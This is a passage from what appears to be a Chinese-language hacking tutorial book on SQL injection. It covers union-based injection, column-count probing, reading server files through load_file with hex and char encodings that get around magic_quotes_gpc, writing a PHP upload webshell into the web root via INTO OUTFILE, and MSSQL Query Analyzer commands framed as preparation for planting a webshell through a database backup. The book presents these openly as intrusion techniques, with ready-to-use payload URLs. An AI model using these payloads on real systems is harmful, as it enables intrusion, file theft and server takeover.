



## 7 联合查询

联合查询就是将两个或以上`SELECT`语句的查询结果合并成一个结果显示，两个查询之间用`union`连接。执行联合查询的`union`语句：`查询1 union 查询2`。左边的`查询1`是在网站中正常执行的 SQL 语句，`union 查询2`都是我们注入的内容。为了更形象的说明，请看表1。假设现在有`admin`和`UnionTest`两个表，`admin`表包括`ID`、`username`、`password`、`level`四个字段；`UnionTest`表包括`un1`、`un2`、`un3`、`un4`四个字段。


| 表 `ADMIN` 中的字段 | 表 `UnionTest` 中的字段 |
| :--- | :--- |
| `ID` | `un1` |
| `username` | `un2` |
| `password` | `un3` |
| `level` | `un4` |

如果要查询 `admin` 表中的字段，执行 SQL 语句：`Select count(*) from admin` 返回的结果包括 `ID`、`username`、`password`、`level` 四个字段，如果我们 `admin` 表和 `UnionTest` 表一起进来联合查询会出现怎样的结果？当然是显示两个表中查询的结果集。假如执行联合查询语句：`Select count(*) from admin union select count(*) from UnionTest` 返回的结果是 `ID`、`un1`、`username`、`un2`、`password`、`un3`、`level`、`un4` 这八个两个表中存在的字段。这是正常联合查询的情况，在 SQL 注入中我们又是怎么利用联合查询的呢？前面我们使用的这个联合查询语句里，左边是查询 `admin` 表，右边是查询 `UnionTest` 表，假如右边的查询和左边一样，那么会出现什么情况呢？这就相当于查询同一个表的内容。打个或许并不太贴切的比方，联合查询的注入就是在 `union` 的右边给左边的表造一个镜子，把左边的内容映射到右边。联合查询在 MySQL 注入时非常有效，不过在 ACCESS 和 MSSQL 注入中也可以通用。联合查询有一个限制，要求前面的 `select` 语句和后面的 `select` 语句所查询的字段数要一样；否则会出错。利用这一点，黑客常用来查询字段数目使用的语句是：`http://www.xxx.com/down.asp?id=233 and 1=1 union select 1,2,3` 提交到 SQL 内执行的语句是类似：`Select count(*) from admin union select 1,2,3` 这种形式。前面提到过，联合查询的左右字段数目要求一样，也就是说 `count(*)` 中返回的字段数要等于 1、2、3、4 四个，如果不等，就会提示出错，如图 34 所示。



在注入时在后面语句中继续添加字段数目，一直匹配到页面不出错。如图 35 所示，加到 4 个字段时终于返回了正常页面，说明 左右字段数是等的，该表存在四个字段。 通过联合查询后添加不同的位数，再返回的信息，可以迅速确定查询语句字段数目。联合查询还可以猜测数据库里面的名称，比如：`http://www.xxx.com/down.asp?id=233 and 1=1 union select 1,2,3,4 from admin` 如图 32 所示，这是 `and` 注入的语句。如果里面不存在 `admin` 表，那么会返回错误。利用这个办法可以猜测数据库中的表。接着还可以猜测中的字段，把其中一个字段换成你要查的字段，例如：`http://www.xxx.com/down.asp?id=233 and 1=1 union select 1,2,3,4 from admin` 如图 33 所示，这是 `and` 注入的语句，直到页面返回错误。

联合查询作为注入技术的一个分支，要好好掌握。在某些特定情况下，一般的注入手段不行，只有联合查询可以进行，特别是在 MySQL 数据库的注入中，联合查询能让我们最快得到结果。



MySQL 注入的检测与 MSSQL 和 ACCESS 注入无区别，同样是利用 `and 1=1` 和 `and 1=2` 的返回不同来进行判断。另外有一点小规律，得到 MySQL 数据库绝对路径比 MSSQL 数据库容易，一般在出错页面中就会拿出绝对路径，而不用像 MSSQL 数据库那样列目录找绝对路径，如图 38 所示。


MySQL 数据库的使用越来越普遍，注入技术也可谓“博大精深”，本书将有好几个章节介绍 MySQL 注入这门很重要入侵技术，下面进入正题。如果说 ACCESS 注入主要依靠查询，MSSQL 注入主要依靠“暴”的话，MySQL 则在这两者之间，它的注入过程兼具查询和“暴”的特点，采用的是一种称为“联合查询”的方法来包含注入语句。关于“联合查询”的详细介绍，大家可以看前面的相关章节。构建联合查询语句的第一步是猜解数据库中包含的表段。联合查询有一个特点，就是要求左右两边的查询对象表的字段要是相同，只有相同的联合查询才能正常执行。通常的使用语句是：`and 1=1 union select 1,2,3,4` 如图 39 所示。

`and 1=1` 是保证 `union` 前面的语句为真，相当于一个开关，当写成 `1=2` 时，前面的语句为假，联合查询会在网站上显示 `union` 右边的执行结果。`Select 1,2,3` 是用来猜测几个表，数字之间用逗号隔开，`/*` 是一个注释符，注释后面的语句能保证提交语句被干扰。`and 1=1 union select 1,2,3,4/*` 页面返回正常，说明数据库中存在 4 个表，至此我们完成了第一步。具体入侵可以多试几个字段位置，这里占用数字 3 的位置，提交语句 `http://www.xxx.com/telist.asp?id=1344 and 1=2 union select 1,2,load_file(0x633A2F626F6F742E696E69),4/*` 这样在刚才数字 3 的位置成功显示出 `c:\boot.ini`的内容，如图 37 所示。

导出一个 WEBSLL 的。至于为什么说是“理论上”，这个我们以后讲。先来学习一下如何在 MySQL 数据库下导出一个 WEBSLL。假设现在已经拥有了一个 MySQL 数据库的注入点，在此之前我们通过本书介绍的其他方法获得了网站的绝对路径 `d:\webdev\apache\htdocs`，现在就将我们的一句话木马语句代入这条语句之中。在注入点提交：

```
and 2=1 union select "<?php $msg = copy($_FILES['MyFile']['tmp_name'],$_FILES['MyFile']['name']) ? '上传成功' : '上传失败';echo $msg;?>" into outfile "d:\webdev\apache\htdocs\p.php"
```

其中前面引号中的 `<?php $msg = copy($_FILES['MyFile']['tmp_name'],$_FILES['MyFile']['name']) ? '上传成功' : '上传失败';echo $msg;?>` 是 PHP 一句话木马的内容；`d:\webdev\apache\htdocs\` 为 WEB 绝对路径；`p.php` 是生成的文件名。现在访问 URL 中的 `p.php` 即可见到我们的一句话木马，如图 43、图 44 所示。 

在这个站点的例子中，我们做到了通过注入点导出一个 WEBSLL，但是刚才说过了，MySQL 导出为 WEBSLL 只是理论上可行，那么限制我们实际应用的是什么呢？答案就是 PHP 安全设置中的 `magic_quotes_gpc` 选项。在该选项打开的情况下进行注入时，引号这个特殊符号会被转义成多个引号，即 `''` 变为 `\'`，或者在后面加上 `\` 斜线。 如图 45 所示，在搜索页面中提交的检测字符 `nohack'` 的单引号前被加上了一个 `\`，这就是典型的 `magic_quotes_gpc` 为 on 的现象。这样提交的语句自然是错误的，无法被执行。不过一句话木马部分代码可以通过转为十六进制 `0x633A2F626F6F742E696E69` 的书写形式，这样可以避免使用引号。例如：

`load_file('c:/boot.ini')`转化后成为：

```
load_file(char(108,111,97,100,95,102,105,108,101,40,39,99,58,47,98,111,111,116,46,105,110,105,39,41))
```

转化成`char`字符有专门的工具，打开工具，将要转化的字符写到“输入框”，然后单击“转换”按钮，复制出“条件ASCII”中间的那一行字符就是转化后的结果，如图46所示。


完整的URL链接就是：

```
http://www.xxx.com/down.php?id=1%20and%20=2 union select 1,2,load_file(char(108,111,97,100,95,102,105,108,101,40,39,99,58,47,98,111,111,116,46,105,110,105,39,41)),4,5,6
```

但是`outfile`后的绝对路径却无法通过转义回避引号，因为它是`select`的函数。而在PHP的默认设置中，除了极老的版本，`magic_quotes_gpc`选项都是打开的，所以笔者才在前面说，这种方法只是“理论上”可行。

## 10 如何使用MSSQL查询分析器

MSSQL的查询分析器是MSSQL自带的数据库操作工具，能很直观的显示命令执行的返回结果，如果语句出错会给出详细的出错提示。这个工具对于我们学习数据库语句、测试SQL注入结果、反弹式注入等方面都是必不可少的，这一节我们来讲讲它的用法。

安装完毕MSSQL2000后（注意MSSQL只能安装在服务器版本的操作系统下，如Windows2000、windows2003），依次单击“开始”－“所有程序”－“Microsoft SQL Server”－“查询分析器”运行程序，如图47所示。

运行程序后，先弹出登录框，如图48所示。如果是登录远程数据库服务器，在“SQL Server”处输入远程IP即可，登录本地服务器则输入`127.0.0.1`或`localhost`，接着再输入登录名和密码。有些主机是使用的Windows身份验证，可以选择这一项，然后再输入账号和密码（不是SQL的账号密码了，而是Windows的账号密码），按要求选择妥当后点确定即可登录。

登录后的界面主要分三部分，上面是菜单栏和按钮，左边是数据库列，右边是操作和显示栏，如图49所示。

左侧的数据库列表，其中`master`、`model`、`msdb`、`northwind`、`pubs`、`tempdb`这六个库是系统自带的，其它的库名才是保存数据的库。双击数据库名，能看到库下包含的表名，如图50所示。









双击表名能看到表下的字段等内容，如图51所示。

右侧的空白框中是输入数据库命令的地方，如图52所示，相当于 Windows 中的 `CMD` 命令行。在输入命令后，点击上方的（执行 ）按钮是执行命令，而（执行 ）按钮只是测试语句是否正确。在执行一些比较关键的语句，如删除数据库时，请先测试一次，以免出现错误，请注意这一点。



下面来看看常用的命令有哪些：

- (1) 创建数据库

```
create database
```

如图53所示，我输入的命令是 `create database nohacktest`，在 MSSQL 中建立了一个名为 `nohacktest` 的数据库，在硬盘上也这个库分配并建立了日志空间。



- (2) 删除数据库

```
drop database dbname
```

删除语句很简单，`drop database 数据库名`即可。

- (3) 备份 SQL Server

  a、创建备份数据：这一步是先指定一个目录作为备份的地址，另外第一行的 `use master` 一定要写上，因为这个命令是对系统 的设置，`use master` 相当于指定了的对象，记住 `nohacktest` 这个参数，这是给刚才建立的的名字，如图54所示。


b、开始备份：

```
USE master
EXEC sp_addfiledevice 'disk', 'test', 'c:\backup\test.bak'
BACKUP DATABASE pubs TO test
```

如图55所示，是把 `pubs` 备份到了刚才建立的 `nohacktest` 对象中。



以上是标准步骤，我们在实际注入中用简化语句：`backup database 数据库名 to disk='c:\inetpub\wwwroot\save.db'`。

- (4) 创建新表：

这是非常重要的功能，我们在 MSSQL 备份 WebShell 的核心就是建表、插入数据和导出这三步。建表语句是：

```
create table tabname(col1 image)
```

`tabname` 处是表名，括号里的 `col1` 是列名，`image` 是该列类型。除此之外，还有 `char` 表示字符型、`int` 表示整型，列中的内容限制类型，如 `int` 类型的字段中间是整数。在 MSSQL 查询分析器建表有一点要注意，要通过 `use` 指定哪个数据库，就像备份语句那样，也可以通过下拉菜单指定数据库，如图57所示。



只有在查询分析器里建表需要用 `use` 指定哪个数据库，在执行建表是不需要的，因为默认建在当前数据库下了。我们在刚才建立的 `nohacktest` 数据库中建立了 `test` 表，表中包含有一个名为 `coll` 的字段，类型为 `image`。

